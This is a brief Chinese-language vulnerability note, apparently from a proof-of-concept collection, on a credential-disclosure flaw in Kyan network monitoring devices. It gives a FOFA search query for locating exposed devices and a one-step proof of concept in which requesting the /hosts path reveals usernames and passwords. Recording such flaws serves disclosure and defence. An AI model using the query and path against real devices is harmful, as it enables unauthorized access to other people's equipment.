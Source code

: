 # Kyan-网络监控设备-账号密码泄露漏洞

## 资产收集
fofa：title="platform - Login"

## POC
访问url，`http://127.0.0.1/hosts` ，显示用户名密码  
![](img/hosts.jpg)